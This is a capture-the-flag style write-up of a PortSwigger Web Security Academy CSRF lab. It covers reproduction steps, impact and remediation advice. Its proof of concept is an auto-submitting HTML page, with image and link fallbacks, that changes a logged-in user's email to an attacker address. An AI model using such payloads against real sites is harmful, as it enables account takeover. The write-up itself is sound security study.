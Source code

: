 # PS-006 — CSRF: Missing/Invalid Token
**Date / Analyst:** 2025-09-08 — Christopher Araque
**Target:** PortSwigger WSA (CSRF basic, token missing/ignored)

## TL;DR
A state-changing action (e.g., change email) succeeds without a valid CSRF token.
**Impact:** attacker can alter account data via a lure link or auto-submitting page.
**Fix:** per-request, unpredictable tokens; validate Origin/Referer; SameSite cookies.

## Scope & Context
- Endpoint: `/my-account/change-email`
- Auth context: logged-in user (wiener)
- Method: GET (token ignored)
- Token: present but **not validated for GET**
## Steps to Reproduce
1) Log in. Find a state-changing action (change email/password/add comment).
2) Capture request (Burp/DevTools). Confirm token is missing/ignored/static.
3) Build a PoC page that auto-submits the same request from a third-party context.
4) While logged in, open the PoC → observe server-side change.

## Evidence
- Request/Response: [ps-006-request.txt](../../evidence/ps-csrf/ps-006-request.txt)
- Screenshot: ![PS‑006](../../evidence/ps-csrf/ps-006-screenshot.png)

## PoC (edit action/fields)
```html
Head:
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Cache-Control: no-store

<!doctype html>
<html>
  <body>
    <form action="https://0a92000504c64cc580d26c250088004e.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="victim%40evil.com">
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>

Body:
<!doctype html>
<html>
  <body>
    <!-- Auto-submit GET request that bypasses CSRF token enforcement -->
    <form action="https://0a92000504c64cc580d26c250088004e.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="victim%40evil.com">
    </form>
    <script>document.forms[0].submit();</script>

    <!-- Fallback (works even with JS off): -->
    <img src="https://0a92000504c64cc580d26c250088004e.web-security-academy.net/my-account/change-email?email=victim%40evil.com" style="display:none">
    <noscript>
      <a href="https://0a92000504c64cc580d26c250088004e.web-security-academy.net/my-account/change-email?email=victim%40evil.com">Click here</a>
    </noscript>
  </body>
</html>

## Impact
A logged-in user’s email address can be changed without their consent, allowing full account takeover via password reset.

## Recommended Remediation
- Enforce **per-request, unpredictable CSRF tokens** bound to user/session.
- **Validate Origin/Referer** on state-changing requests.
- Set cookies with **SameSite=Lax/Strict**, **HttpOnly**, **Secure**.
- Deny state-changing **GET**; prefer **POST** with CSRF defenses.

## Notes
- If token exists but action still succeeds when removed/altered → “token not validated”.
- If token is static or leaked in GET, document the weakness.
